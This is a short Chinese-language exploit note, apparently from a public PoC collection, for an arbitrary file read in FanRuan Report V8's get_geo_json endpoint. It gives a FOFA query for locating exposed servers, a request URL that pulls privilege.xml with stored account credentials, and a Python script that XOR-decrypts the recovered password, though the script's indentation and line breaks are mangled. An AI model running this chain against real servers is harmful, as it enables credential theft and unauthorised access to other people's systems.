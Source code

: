 ## 帆软报表 V8 get_geo_json 任意文件读取漏洞

## fofa
```
body="isSupportForgetPwd"

```

## poc
```
WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

获得账号密码后进行解密，解密脚本如下
## 解密脚本
```python
cipher = 'XXXXXXXXXXX' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23]
Password = "" cipher = cipher[3:]
for i in range(int(len(cipher) / 4)):
c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
Password = Password + chr(c2)
print (Password)
```
